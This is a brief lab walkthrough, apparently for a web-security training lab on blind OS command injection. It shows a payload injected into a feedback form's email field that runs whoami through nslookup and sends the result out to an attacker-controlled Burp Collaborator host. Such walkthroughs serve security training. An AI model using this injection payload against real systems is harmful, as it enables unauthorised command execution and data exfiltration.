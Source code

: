 # Lab: Blind OS command injection with out-of-band data exfiltration

Open burp collaborator and copy the server location.

Intercept the feedback request and modify the email parameter to be ``email=||nslookup+`whoami`.<burp-collaborator-server>||`` using the appropriate collaborator url.

Forward the request and check the collaborator interactions to see that the username is included in the dns lookup.

Submit the username to complete the lab.